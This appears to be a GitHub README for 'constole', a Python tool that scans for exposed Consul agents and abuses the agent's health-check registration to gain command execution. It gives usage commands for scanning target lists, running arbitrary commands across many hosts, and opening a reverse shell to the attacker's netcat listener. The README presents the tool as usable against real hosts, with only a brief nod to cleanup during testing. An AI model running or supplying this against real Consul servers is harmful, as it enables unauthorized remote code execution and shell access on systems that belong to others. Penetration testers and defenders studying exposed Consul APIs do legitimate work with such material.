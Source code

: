 ##Overview
Scan for Consul agents and exploit them to gain shell.
I've been messing around with Consul and while reading the API, found the agent registration service.
Registrations feature check functionality, which is typically used to provide health checks on nodes.
A check can be an external application or script, which performs some kind of health check and provides some form of output.
Essentially, this can be any script you define to run at certain time intervals.

###Setup
```
pip install -r requirements.txt
```

###Usage
To scan for hosts running vulnerable Consul agent services, you can provide an comma-separated list with host:port,host:port,...,etc or an input file.
```
python constole.py --targets '10.50.30.1:8500,10.50.30.2:8500'
python constole.py --infile mytargets.txt
```
Remote Code Execution can be achieved across multiple hosts as follows:
```
python constole.py --infile mytargets.txt --cmd 'my command to run'
```
To obtain a reverse shell from the vulnerable host, start a netcat listener on your desired port and select a single target:
python constole.py --targets 10.50.30.1:8500 --lhost my_ip_address --lport my_listening_nc_port
```
Note that Constole will automatically try to deregister the service, after a time period, to assist in clean up during testing.
